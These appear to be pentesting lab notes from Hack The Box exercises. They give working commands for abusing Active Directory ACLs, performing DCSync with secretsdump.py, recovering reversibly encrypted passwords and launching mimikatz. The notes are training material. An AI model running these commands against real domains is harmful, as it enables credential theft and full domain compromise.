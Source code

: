 ## GenericAll or GenericWrite privilege
```
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
Add a user to the Exchange Windows Permissons Group 
```
PS C:\> net group "Exchange Windows Permissions" /add <user>
```
### WriteDacl
```
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PincipalIndentity <useraddedtogroupwithWriteDaclprivleges> DCSync
```
# DCSync
If we have a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set.  Domain/Enterprise Admins and default domain administrators have this right by default.
```
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
Using Get-ObjectAcl to Check adunn's Replication Rights
```
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
```
```
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
PowerView can be used to confirm that this standard user does indeed have the necessary permissions assigned to their account. 
## Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
```
d0x777@htb[/htb]$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm
```
**ip for the DC**
## Viewing an Account with Reversible Encryption Password Storage Set
```
Import-Module .\PowerView.ps1
```
```
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
### Displaying the Decrypted Password
```
cat inlanefreight_hashes.ntds.cleartext
```
### Using runas.exe
```
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Then run mimikatz as the user proxyagent who has can perform the DCSynce attack
```
PS C:\htb> .\mimikatz.exe
```
```
mimikatz # privilege::debug
```